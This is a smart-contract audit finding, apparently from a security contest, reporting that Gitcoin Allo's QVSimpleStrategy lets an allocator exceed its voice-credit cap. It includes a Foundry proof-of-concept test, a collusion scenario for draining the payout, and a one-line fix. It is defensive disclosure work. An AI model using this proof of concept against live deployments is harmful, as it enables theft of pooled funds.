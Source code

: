 Damaged Cornflower Turkey

high

# Allocator can allocate more voiceCredits than maxVoiceCreditsPerAllocator.
`allocator.voiceCredits` gets never updated resulting in every allocator being able to vote more than `maxVoiceCreditsPerAllocator`.
## Vulnerability Detail
The specs [define](https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-simple/README.md?plain=1#L47) `maxVoiceCreditsPerAllocator` as:
```solidity
Maximum voice credits that can be allocated by a single allocator.
```

This is supposed to be checked in `QVSimpleStrategy._allocate`:
```javascript
source:contracts/strategies/qv-simple/QVSimpleStrategy.sol

function _allocate(bytes memory _data, address _sender) internal virtual override {
	//.. omitted code
        if (!_hasVoiceCreditsLeft(voiceCreditsToAllocate, allocator.voiceCredits)) revert INVALID();
	//.. omitted code
    }
```

The problem is that `allocator.voiceCredits` is not updated after the voiceCredits have been casted so this will always be set to `0`.

This results in the `QVSimpleStrategy._hasVoiceCreditsLeft()` function to always pass if `voiceCreditsToAllocate + 0 <= maxVoiceCreditsPerAllocator`
```javascript
source:contracts/strategies/qv-simple/QVSimpleStrategy.sol

function _hasVoiceCreditsLeft(uint256 _voiceCreditsToAllocate, uint256 _allocatedVoiceCredits)
        internal
        view
        override
        returns (bool)
    {
        return _voiceCreditsToAllocate + _allocatedVoiceCredits <= maxVoiceCreditsPerAllocator;
    }
```

Here's a POC that showcases an allocator being able to allocate 100 voiceCredits for multiple times while the `maxVoiceCreditsPerAllocator` is set to 100.
```javascript
source: test/foundry/strategies/QVSimpleStrategy.t.sol

    // put this in test/foundry/strategies/QVSimpleStrategy.t.sol
    // run using:
    // forge test --match-contract QVSimpleStrategy --match-test test_alloMoreThanMax -vvvv
    function test_alloMoreThanMax() public {
        // Register a recipient
        address recipientId = __register_accept_recipient();

        // Create a random allocator address
        address allocator = randomAddress();

        // Add an allocator
        vm.prank(pool_manager2());
        qvSimpleStrategy().addAllocator(allocator);

        // Warp into the time window where allocation is possible
        vm.warp(allocationStartTime + 10);
        
        // Verify that maxVoiceCreditsPerAllocator == 100
        assertEq(qvSimpleStrategy().maxVoiceCreditsPerAllocator(), 100);

        // Create allocation data
        bytes memory allocateData = __generateAllocation(recipientId, 100);

        vm.startPrank(address(allo()));
        // Keep calling .allocate multiple times with 100 voiceCredits.
        // This should not be possible because maxVoiceCreditsPerAllocator == 100
        // However, all calls will succeed.
        qvSimpleStrategy().allocate(allocateData, allocator);
        qvSimpleStrategy().allocate(allocateData, allocator);
        qvSimpleStrategy().allocate(allocateData, allocator);
        vm.stopPrank();
    }
```

With the current implementation, consider the following scenario:
1. Participant and allocator work together.
2. An allocator can spam allocate votes to a participant.
3. Since the payout happens based on the amount of votes, the participant will end up stealing the majority of the funds, sharing it with the allocator.

## Impact
Allocator and participant can easily game the system to get a majority payout.

## Code Snippet
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-simple/QVSimpleStrategy.sol#L107-L124

https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-base/QVBaseStrategy.sol#L506-L534
## Tool used
Manual Review
## Recommendation
Add the following line to `QVBaseStrategy._qv_allocate()`:
```diff
function _qv_allocate() {
// .. omitted code
L529	_allocator.voiceCreditsCastToRecipient[_recipientId] += totalCredits;
L530    _allocator.votesCastToRecipient[_recipientId] += voteResult;
+	    _allocator.voiceCredits += _voiceCreditsToAllocate;
// .. omitted code
}
```
This will ensure the allocator struct of the allocator is correctly updated after casting his voiceCredits.